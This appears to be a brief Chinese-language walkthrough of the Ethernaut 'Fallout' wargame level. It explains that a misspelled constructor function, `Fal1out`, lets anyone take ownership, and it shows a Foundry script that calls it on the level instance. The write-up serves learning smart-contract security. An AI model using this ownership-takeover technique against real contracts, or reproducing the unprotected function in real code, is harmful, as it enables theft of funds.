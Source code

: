 # Fallout

https://ethernaut.openzeppelin.com/level/0x676e57FdBbd8e5fE1A7A3f4Bb1296dAC880aa639

通过查看合约，发现合约有一个`Fal1out`函数，这个函数会修改合约的owner，可以被直接调用

```solidity
pragma solidity ^0.6.0;

import {Fallout} from "../src/Fallout.sol";
import {Script} from "forge-std/Script.sol";

contract FallbackScript is Script {
    // instance id: 0x08735fa537C1Dbe96316C277F4B377cA671031b8
    Fallout public fallout = Fallout(payable(0x08735fa537C1Dbe96316C277F4B377cA671031b8));

    function setUp() public {
    }

    function run() public {
        vm.startBroadcast();
        fallout.Fal1out();
        vm.stopBroadcast();
    }
}
```